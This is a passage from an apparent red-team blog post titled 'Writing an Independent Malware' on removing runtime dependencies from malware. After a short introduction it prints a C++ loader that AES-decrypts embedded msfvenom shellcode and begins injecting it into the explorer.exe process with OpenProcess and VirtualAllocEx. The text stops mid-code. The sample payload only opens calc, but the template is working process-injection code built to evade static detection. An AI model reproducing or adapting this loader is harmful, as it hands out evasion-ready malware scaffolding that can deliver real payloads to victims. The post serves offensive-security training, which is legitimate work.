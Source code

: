 ```yaml
---
layout: post
title: "Writing an Independent Malware"
date: 2022-10-17
categories: [redteam, maldev]
description: "A quick guide and high-level discussion on how to remove runtime dependencies when writing malware."
header-img: /static/img/2022-10-17-independent-malware/code-dont-run-lab-machine.png
image: /static/img/2022-10-17-independent-malware/code-dont-run-lab-machine.png
---
```


> _I'm almost 90% complete drafting this post when I came across this [talk](https://www.youtube.com/watch?v=TfG9lBYCOq8) by [@rad9800](https://twitter.com/rad9800) that discusses the same topic. I'm still publishing this anyhow because I don't want my efforts to go to waste and this post contains some ideas not mentioned in the talk._

There's no greater feeling when the malware (or any project/tool) you're developing works as expected. Until suddenly you realized it only works on your dev machine but not on any other machine.

Here's an example of what I mean. This code is a commonly used template by malware in which the payload is AES-encrypted (using [tiny-AES-c](https://github.com/kokke/tiny-AES-c) in this case) to avoid static detection. The payload gets decrypted during execution and injected into a remote target process' memory space.

```cpp
#include <Windows.h>
#include <stdio.h>
#include "include/aes.hpp"

int main()
{
	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\x9c\xad\x1d\x5b\x52\x35\xdf\x9e\x15\xc3\xa4\x94\xb0\xf6\xd5\x1a\x14\x82\x9b\xc2\xc5\x40\x9e\x03\x45\xdf\x0d\x85\xfc\xff\xc2\xf7\x37\x84\x4b\xa1\x5f\x07\xa3\xf5\xd5\xe3\x54\xe4\x33\x84\x24\xf9\xaf\xbd\xc1\x53\xc9\x87\x4c\xc2\x12\xc7\x24\x6c\x22\xe9\x41\xb4\x47\x9c\xfa\x4c\x20\x8f\x57\x17\x29\x00\x10\x40\x83\xff\xc8\xfe\xa5\x87\x1f\xfd\xec\x30\x72\x07\x71\x59\xf8\x05\xda\x49\x12\xdf\x0a\xc5\xb8\x65\x99\x65\xfa\x5f\xc4\xc3\x8b\x40\x1e\xbe\xf1\x55\xde\x4f\x3a\x65\x2f\x14\xcc\x29\x9d\x7d\x17\xd0\x55\x99\x9e\xc3\x0d\xd7\xbb\xa3\x00\x34\x79\x32\xbe\x16\x66\xf6\xa4\xbc\xda\x40\x06\x7b\x8d\x56\x79\x6b\x21\x79\xd5\xf9\x55\x52\xe2\xd5\x8c\x34\xfd\x1c\x26\xc2\xf5\xd4\x6b\xca\xc3\x74\x91\x9d\xe4\xa2\xf4\x71\x42\x90\x2c\x6a\x11\x66\xf8\x56\x8f\x3c\x26\xa4\x27\x89\x6f\xc2\x02\x48\x53\xed\x08\x32\xa6\x48\x0f\x9a\x39\x0e\x5d\x38\xb4\xa2\x30\x6d\x27\x94\x80\x8c\x06\xa8\x86\x5f\x0b\xda\x44\x83\x51\x55\xfc\xb9\xe2\xcb\xbc\x95\xc8\xd6\x18\xd7\x1b\x04\x3d\xfb\x53\x9b\x57\xa8\xb2\xab\xe7\x27\x3b\xd2\xcb\x53\x20\x11\xcc\x5f\xaf\x31\xcf\xba\x83\xd7\xc7\xa8\xf7\x0c\x78\x6d\x7f\x46\x99\xd7\x33\x23";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, shellcode, shellcodeSize);

	// PID of explorer.exe
	DWORD pid = 6028;
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	printf("[+] Handle obtained: 0x%p\n", hProcess);

	PVOID baseAddress = NULL;
	baseAddress = VirtualAllocEx(hProcess, NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	printf("[+] Memory allocated: 0x%p\n", baseAddress);

```